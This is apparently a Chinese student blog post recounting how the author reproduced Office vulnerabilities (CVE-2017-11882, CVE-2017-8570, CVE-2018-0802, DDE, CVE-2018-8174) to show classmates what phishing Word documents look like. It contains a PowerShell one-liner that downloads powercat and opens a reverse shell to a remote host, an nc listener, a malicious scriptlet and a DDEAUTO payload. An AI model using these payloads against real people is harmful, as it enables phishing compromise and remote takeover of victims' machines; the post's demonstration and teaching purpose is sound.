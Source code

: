 新的一年迎新又开始啦，回想一年前这个时候的自己，算是有那么一丢丢的进步了吧。一年前的时候，貌似php都不会2333，浏览器的开发者工具都不晓得，
貌似就会搭一个wifi，hahah，扎心了，新的一年努力学习吧骚年！！！
这次迎新让同学们见识下钓鱼邮件是什么样子的，主要放的是word文档，也可以整理下office这两年爆出的漏洞，虽然说过不了360的吧，但是演示起来很酷的呀～

## CVE-2017-11882
其实复现起来都很好说，github上都给了生成文件的脚本了 [链接](https://github.com/unamer/CVE-2017-11882)
首先为了实际钓鱼中应用，先弹个shell再说，找到了两种方式，一种是powershell 反弹一句话，另一种是直接写入shellcode运行，先看第一种
powershell一句话反弹shell
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 9999 -e cmd
```
[参考链接](https://www.anquanke.com/post/id/99793)

然后利用脚本构造恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/81.png)

kali上nc监听端口等待连接 ````nc -lvp 9999````
目标打开恶意word文档后 shell反弹回来

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/82.png)

第二种方式先用msfvenom生成shellcode

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/83.png)

然后利用脚本生成恶意word文档

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/84.png)

目标打开文档后msf上线

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/85.png)

不过后来考虑了下，同学们应该get不到上面操作的含义，所以直接来个简单直接的办法

````python a.py -c "cmd.exe /c start ssText3d.scr /s" -o 1.doc````
同学们打开恶意文档后就会出现如下文字

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/86.png)

## CVE-2017-8570

[Github脚本链接](https://github.com/rxwx/CVE-2017-8570)

实现跳出文字的效果，这里要注意一下，先要修改calc.sct文件

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c start ssText3d.scr /s");
	
	
]]>
</script>

</scriptlet>
```
然后利用脚本生成恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/87.png)

这个是远程下载文件calc.sct修改方式

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/88.jpg)

没有尝试powershell一句话，应该可以的吧

## CVE-2018-0802

这个是对CVE-2017-11882补丁的一个绕过 github脚本很详细了 [链接](https://github.com/rxwx/CVE-2018-0802)

## DDT
这个用不到office宏 复现很简单

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/89.png)

改成````DDEAUTO C:\\windows\\system32\\cmd.exe "/c start ssText3d.scr /s"````

但是应用的时候要目标点击”是“才行

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/810.png)

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/811.png)

## CVE-2018-8174

这个直接就有msf的脚本呀 放上链接 [链接](https://github.com/0x09AL/CVE-2018-8174-msf)

but这些实际当中还能用嚒，可能会碰上没装杀软的吧hahaha.......

